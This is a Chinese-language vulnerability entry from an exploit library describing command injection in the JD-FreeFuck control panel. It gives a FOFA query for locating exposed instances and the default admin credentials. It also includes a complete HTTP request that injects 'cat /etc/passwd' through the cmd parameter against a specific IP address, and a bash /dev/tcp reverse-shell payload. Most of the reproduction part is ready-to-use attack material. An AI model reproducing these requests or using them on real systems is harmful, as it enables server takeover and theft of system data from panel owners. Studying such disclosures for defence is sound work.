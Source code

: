 ```yaml
---
title: JD-FreeFuck 后台命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - JD-FreeFuck
---
```


# JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

> [!NOTE]
>
> JD-FreeFuck

## FOFA

> [!NOTE]
>
> title="京东薅羊毛控制面板"

## 漏洞复现

访问后登录页面如下

![](/img/20210924015329480058.png)

默认账号密码为 

**useradmin/supermanito**

![](/img/20210924015331511014.png)

发送如下请求包执行命令

```
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](/img/20210924015332791885.png)

反弹shell

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](/img/20210924015333155554.png)

## 参考文章

@桃花心 师傅

https://www.secquan.org/Discuss/1071932#reply3